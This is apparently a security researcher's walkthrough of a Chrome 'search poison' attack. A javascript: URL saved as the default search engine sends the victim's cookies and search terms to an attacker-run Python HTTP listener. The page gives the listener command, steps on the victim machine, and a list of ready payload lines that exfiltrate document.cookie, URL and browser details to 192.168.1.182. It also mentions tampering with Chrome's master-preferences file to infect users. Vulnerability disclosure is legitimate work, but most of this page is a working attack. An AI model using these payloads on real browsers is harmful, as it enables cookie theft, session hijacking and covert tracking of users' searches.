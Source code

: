Google Chrome Search Poison – Default Search Engine Exploit
##Introduction
In December 2015, I discovered a vulnerability in Google Chrome's default search engines feature whereby a lack of input sanitation allows an attacker to store XSS in the victim's browser. This stored XSS is then executed whenever the victim searches using the omnibox.<br>
In this walkthrough we'll set up a Python SimpleHTTPServer and intercept the victim’s Cookies and search keywords.<br>
<br>
Note: The vulnerability has been reported to the Chromium team but they will not fix the issue.
##Video Demo
<https://www.youtube.com/watch?v=WoF-LkA6fMk><br>
The video demonstration involves manipulation of the chrome master-preferences file to infect the user with the malicious search engine. The user is then directed to the attackers apache server, which extracts the search query, cookies and other system information and seamlessly directs them back to their search.
##Walkthrough - Setting up the Listener in Kali
<code>
<div class="code">
root@kali:~$ <com>python -m SimpleHTTPServer 80</com>
</div>
</code>
##Setup on Victim Machine
1. Go into **"Settings"** in Google Chrome<br>
2. Click on **"Manage Search Engines"**<br>
3. Enter your malicious JS and click **"Make Default"**<br>

##Example
<code>
<div class="code">
<com>javascript:window.location='http://192.168.1.182/%s'+escape(document.cookie);</com>
</div>
</code>
Note: 192.168.1.182 is our SimpleHTTPServer.<br>
Now whenever the victim searches using Google Chrome’s Omnibox, the malicious JS will trigger, forwarding you their cookie and search string (%s).<br>
##Other examples
<code>
<div class="code">
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.cookie);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.baseURI);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.domain);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.URL);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(location.host);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appCodeName);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appName);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appVersion);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.userAgent);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.product);
</div>
</code>

Tags: search-poison
